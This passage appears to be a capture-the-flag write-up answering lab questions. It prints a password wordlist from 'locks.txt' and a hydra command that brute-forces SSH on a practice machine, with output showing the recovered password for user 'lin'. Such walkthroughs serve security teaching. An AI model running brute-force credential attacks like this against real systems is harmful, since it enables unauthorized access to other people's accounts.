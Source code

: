 &nbsp;

### What service can you bruteforce with the text file found?
- Since we saw that FTP, SSH and HTTP were the services running on the machine it is safe to saw that we can brute force SSH
### Answer
```
SSH
```

&nbsp;

### What is the users password?
- Let's take a look at the `locks.txt` file
```
$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
- Seems to be a bunch of passwords.
- We can brute force SSH using the `hydra` utility.
```
$ hydra -l lin -P locks.txt 10.10.245.97 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 16:48:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.245.97:22/
[22][ssh] host: 10.10.245.97   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 16:48:12
```